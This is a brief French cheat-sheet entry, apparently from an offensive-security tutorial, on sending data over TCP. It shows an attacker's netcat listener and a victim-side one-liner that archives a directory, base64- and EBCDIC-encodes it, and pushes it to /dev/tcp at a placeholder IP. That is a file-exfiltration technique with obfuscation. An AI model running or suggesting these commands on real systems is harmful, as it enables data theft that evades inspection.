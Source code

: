 ## Envoyer des données via tcp

Attaquant
```
nc -lvp 8080 > /tmp/my-file.data
```
<br>

Vitcime
```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/<IP>/8080
```
